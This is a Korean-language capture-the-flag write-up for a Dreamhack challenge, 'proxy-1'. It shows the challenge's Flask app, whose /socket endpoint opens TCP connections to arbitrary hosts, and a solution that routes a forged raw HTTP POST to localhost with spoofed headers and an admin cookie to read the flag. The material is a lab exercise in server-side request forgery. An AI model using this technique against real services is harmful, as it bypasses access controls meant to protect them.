 ## proxy-1
---

```python
#!/usr/bin/python3
from flask import Flask, request, render_template, make_response, redirect, url_for
import socket

app = Flask(__name__)

try:
    FLAG = open('./flag.txt', 'r').read()
except:
    FLAG = '[**FLAG**]'

@app.route('/')
def index():
    return render_template('index.html')

@app.route('/socket', methods=['GET', 'POST'])
def login():
    if request.method == 'GET':
        return render_template('socket.html')
    elif request.method == 'POST':
        host = request.form.get('host')
        port = request.form.get('port', type=int)
        data = request.form.get('data')

        retData = ""
        try:
            with socket.socket(socket.AF_INET, socket.SOCK_STREAM) as s:
                s.settimeout(3)
                s.connect((host, port))
                s.sendall(data.encode())
                while True:
                    tmpData = s.recv(1024)
                    retData += tmpData.decode()
                    if not tmpData: break
            
        except Exception as e:
            return render_template('socket_result.html', data=e)
        
        return render_template('socket_result.html', data=retData)


@app.route('/admin', methods=['POST'])
def admin():
    if request.remote_addr != '127.0.0.1':
        return 'Only localhost'

    if request.headers.get('User-Agent') != 'Admin Browser':
        return 'Only Admin Browser'

    if request.headers.get('DreamhackUser') != 'admin':
        return 'Only Admin'

    if request.cookies.get('admin') != 'true':
        return 'Admin Cookie'

    if request.form.get('userid') != 'admin':
        return 'Admin id'

    return FLAG

app.run(host='0.0.0.0', port=8000)
```

<br>

## Solution
---

/admin 페이지에 있는 조건들을 만족해야 FLAG를 읽을 수 있다.

첫 번째 조건은 remote address가 localhost여야 한다.

이 부분은 문제에서 socket 페이지를 통해 해결할 수 있다. ```host: 127.0.0.1, port=8000```

두 번쨰 조건 부터는 header를 추가해줘야 한다. 이 또한 socket 페이지의 data 값으로 header를 추가하면 된다.

**헤맸던 점은 ```Content-Length``` 헤더를 추가해줘야 Request Body 값이 들어간다는 점이었다.**

```
POST /admin HTTP/1.1
Content-Length: 12
User-Agent: Admin Browser
Content-Type: application/x-www-form-urlencoded
DreamhackUser: admin
Cookie: admin=true
Connection: close

userid=admin
```

